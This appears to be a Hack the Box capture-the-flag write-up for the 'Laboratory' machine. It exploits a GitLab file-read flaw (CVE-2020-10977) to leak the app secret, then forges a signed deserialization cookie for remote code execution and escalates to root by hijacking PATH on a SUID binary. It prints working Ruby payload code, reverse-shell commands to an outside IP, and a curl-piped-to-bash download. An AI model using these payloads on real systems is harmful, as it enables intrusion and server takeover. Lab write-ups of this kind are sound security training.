







In this write-up, I'm going over Laboratory from Hack the Box, a fun and enjoyable machine that got labelled as an easy box. The whole challenge mainly revolves around two exploits in a GitLab instance that will give you a user shell on the box. Especially the second vulnerability is pretty exciting and shows the importance of keeping your application secrets safe. Many apps will serialize data and send it over to the user in the form of a cookie. They mainly do this to keep their app stateless. That way, they don't have to worry about keeping track of the whole session state themselves. But that puts a lot of trust in the fact that the user can't modify this cookie, which is often considered safe because it got signed with a secret unknown to the user. However, if this secret is somehow leaked, like for example, in this case through an LFI, then as a malicious actor, you can send a custom payload and execute a deserialization attack. The first exploit will trigger the LFI and use the GitLab app secret to sign a payload to get a shell on the box. Then via a custom setuid binary with path file checking, we'll get access to the root account. With all that said, let's dive right in and start our enumeration.

## Enumeration

Starting of our investigation with an nmap scan. This will allow us to get a better overview of what is exposed on our target machine. We'll use `-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. This way, we can always refer back to it later.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.216

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 02:45 CEST
Nmap scan report for 10.10.10.216
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn:
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.34 seconds
```

So we have ssh open on port `22`, apache on port `80` that redirects to `https` so port `443`. The certificate returned on port `443` does give us a couple of domains (`laboratory.htb` and `git.laboratory.htb`), so let's add them to our hosts file:

```sh
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       parrot

10.10.10.216 laboratory.htb git.laboratory.htb
```

Digging into `laboratory.htb`, we get presented with a fairly basic HTML page. The whole website seems to mostly contain static content. Other than a couple of possible usernames, there isn't much here.



Let's turn our focus to the other domain, `git.laboratory.htb`, as it turns out this seems to be a self-hosted instance of the GitLab Community Edition. GitLab is a fully open-source alternative to GitHub. It gives you access to a git repository manager, wiki, issue tracker, CI pipelines, and much more. It basically gives an organization or individual access to all the tools required to enforce a healthy DevOps life cycle with a single application. The current tech stack is a mix of Go, Ruby on Rails and Vue.js. The instance is just open and allows us to register a new user for ourselves. The only validation it has is that it checks that the email you use is from `laboratory.htb`. So let's create ourselves a user, something like:

- **Username**: yolo123
- **Email**: yolo123@laboratory.htb
- **Password**: password



And we've got access to this GitLab instance. For this newly created user, this GitLab instance seems pretty empty. Let's dig up the current version and see if there are any know vulnerabilities that can give us a foothold on the machine or allow us to escalate our privileges. GitLab has a pretty rich API that it exposes, which is also neatly documented [here](https://docs.gitlab.com/ee/api/README.html). We can leverage the API to see what version it is currently running:



When looking around online for known exploits for this particular GitLab version I bumped into [CVE-2020-10977](https://nvd.nist.gov/vuln/detail/CVE-2020-10977). It's an arbitrary file read exploit that allows reading any file present on the server. Especially this [HackerOne](https://hackerone.com/reports/827052) is really interesting. It's where the issue initially got reported and contains very detailed step by step instructions on how to exploit and get RCE.

## Foothold

Triggering the LFI is actually fairly trivial. The HackerOne article explains everything you need to know in pretty great detail, but let me walk you through the steps. To get started, we need to create 2 projects on GitLab with the user we just created. Let's call them `project-a` and `project-b`, now in `project-a` create a new issue with the following description:

```md

```

That's a pretty funky looking URL, right? GitLab allows you to upload files and add them to an issue, which is pretty convenient if you manage a project. If someone reports a problem, they can add some visual clarification by attaching an image. These files are added to an upload directory scoped to the current project and given a unique id to prevent collisions. It then automatically adds a markdown link to the description. So far, so good.

Mistakes happen, so GitLab has a feature that allows transferring issue from one repo to another. At this point, GitLab needs to rewrite the upload and move it to the new project. And that's where the exploit happens. It does not validate the file, allowing arbitrary files to be copied via directory traversal to `project-b` in our case. This means we now got `/etc/passwd` as an attachment to our moved issue in `project-b`:


Clicking on that link allows you to download the attachment. We are now able to download any file from the our target machine:

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
```

This file on its own isn't all too interesting. But doing a bit of research, you will learn that every GitLab instance will contain this file `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`, which has all the secrets required to start signing custom cookies. This is the crucial piece we need to transform our LFI exploit into an RCE.

The HackerOne article contains a snippet of code that allows us to generate the serialized payload we can inject into the cookie. To create this payload, we'll need access to the GitLab Rails Console. The best way to get access to this console is via the GitLab docker image. This even allows us to run the exact same version as our target machine is running. To get a shell in the container, you can run:

```sh
docker run -it gitlab/gitlab-ce:12.8.1-ce.0 bash
```

This might take a while, so go grab a coffee, this local GitLab instance should be running in just a few. When the instance is up and running, use `docker ps` to find the id of the container. You can then use `docker exec -it <container-id> bash` to get a shell inside this container. Now let's replace the `secret_key_base` in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` in our docker image with the secret we just leaked from our target machine. This will allow us to create a valid signed cookie with our reverse shell embedded within. Before we can do this, restart GitLab with `gitlab-ctl restart`. When that is finish we can launch the rails console with `gitlab-rails console` and paste in the following payload:

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.19/6666 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

This will print out a base64 encoded string that is the [experimentation_subject_id](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/lib/gitlab/experimentation.rb#L86) cookie. Which we can now send over via `curl` to get ourselves a reverse shell. Before make sure you have netcat listening on `6666` with `nc -lnvp 6666`.

```sh
curl -I -XGET --insecure 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE5LzY2NjYgMD4mMSdgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--5929c5016a1585c1c2eb6d33de36bcb5f018e7eb"
```

And we've got our reverse shell:



That's a lot of manual steps that you need to go through. Given that the HackerOne report is very detailed and GitLab exposed a pretty rich API, I decided to write up this exploit in Python. You can find the code in [this](https://github.com/nickvdyck/gitlab-cve-2020-10977) GitHub repository. The repository contains all the instructions to get up and running. But in short, you'll need to have `pipenv` installed on your path. This can be done via `pip install pipenv`. Then running `pipenv sync` will install all required dependencies in a virtual environment managed by pipenv. Allowing you to kick of the LFI with:

```sh
pipenv run ./cve_2020_10977.py --url https://git.laboratory.htb -u yolo123 -p password --insecure
```

This will print out the value of `secret_key_base`. The script also allows you to chain the LFI into an RCE, giving you the ability to execute any command you want on the target GitLab instance:

```sh
pipenv run ./cve_2020_10977.py --url https://git.laboratory.htb -u yolo123 -p password --insecure --cmd "bash -c 'bash -i >& /dev/tcp/10.10.14.19/6666 0>&1'"
```

## Lateral Movement

We got access to our target machine but at the moment we are not a privileged user and are currently logged in as the `git`user. But just like in our container just earlier, we have access to the `gitlab-rails console`. There is [this](https://docs.gitlab.com/ee/security/reset_user_password.html) GitLab support article that explains how you can use the console to reset a users password. Let's use this same technique to give us admin permissions:

```sh
git@git:~/gitlab-rails/working$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> User.find_by(email: "yolo123@laboratory.htb")
=> #<User id:5 @yolo123>
irb(main):002:0> user = User.find_by(email: "yolo123@laboratory.htb")
=> #<User id:5 @yolo123>
irb(main):003:0> user.admin = TRUE
(irb):3: warning: constant ::TRUE is deprecated
=> true
irb(main):004:0> user.save!
=> true
irb(main):005:0>
```

Going back to our browser, we should now have access to the admin section. If you don't see the wrench icon give it a few seconds to propagate, GitLab caches certain parts quite heavily. On the admin dashboard, we see 2 projects we now have access to. These projects are from the `Dexter` user, and if you snooped around the gitlab-rails console a bit, you might have noticed that this user is also an admin.



The `SecureDocker` project contains a `.ssh` folder with an ssh key we can use to try and log in.



Logging in with ssh as the `Dexter` gives us access to the user flag:

```sh
$ ssh -i id_rsa dexter@10.10.10.216

dexter@laboratory:~$ ls
user.txt
dexter@laboratory:~$
```

Let's run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) on the machine to get an idea of where we need to focus our efforts next. Hack the box machine don't have internet access, so the best way to get this up and running is to download `linpeas.sh` on your host machine and expose it by hosting a webserver with `python -m http.server`. Then we can use curl to download the script and pipe it directly to bash to let it do its thing. The results show an interesting SUID binary that isn't usually on a Linux system, and the `dexter` user owns that. I truncated the output, but a SUID binary can be detected by the `s` within the file permissions of the output of an `ls` command. A SUID binary gets executed as the root user without asking for a password, meaning it is an exciting target for us to try and exploit.

```sh
$ curl -L http://10.10.14.19:8000/linpeas.sh | bash

<snip>
-rwsr-xr-x 1 root   root            109K Jul 10  2020 /snap/core/9665/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root            109K Jul 10  2020 /snap/snapd/8542/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root            109K Jul 29  2020 /snap/core/9804/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root            109K Jul 29  2020 /snap/snapd/8790/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   dexter           17K Aug 28  2020 /usr/local/bin/docker-security
-rwsr-xr-x 1 root   root            163K Jan 19 14:21 /usr/bin/sudo
<snip>
```

When running this binary, you'll notice that nothing really happened. There is also no output written to stdout, so it's pretty hard to know what it actually did. Let's see what this binary is doing under the hood by running it with `ltrace. ltrace is a program that simply runs the specified command until it exits. It intercepts and records the dynamic library calls which are called by the executed process and the signals which are received by that process. It can also intercept and print the system calls executed by the program, which is exactly what we need in this case. Looking at the output it seems to be using a system call to execute a command from the path:

```sh
ltrace docker-security
setuid(0)                                                                                                            = -1
setgid(0)                                                                                                            = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
+++ exited (status 0) +++
```

If you use `sudo` to run a command with elevated permissions it has a concept of secure paths. Meaning it changes the `PATH` variable to make it harder to tamper with. The configuration for this is defined in the `/etc/sudoers` file and often includes the same known paths but prefixed with an s like `/sbin` or `/usr/sbin`.

```sh
Defaults    secure_path = /sbin:/bin:/usr/sbin:/usr/bin
```

But SUID binaries don't have anything like that in place, meaning we can highjack the path add our own `chmod` to a folder we add to the very start of the PATH variable. The following image shows how I created an executable file called `chmod` in `/dev/shm` that executes a single command `id`. This will show us the user we have access to when called from the `docker-security` binary. I then add `/dev/shm` as the first entry to the `PATH` variable and execute `docker-security` again. This shows that the command was run as the `root user.


All we have to do now is edit our `chmod` file again with `vim` or `nano` and swap out `id` for `bash`, which will give us a bash shell running as the root user. Allowing us to read the final flag.



## Conclusion

And that's the whole box.
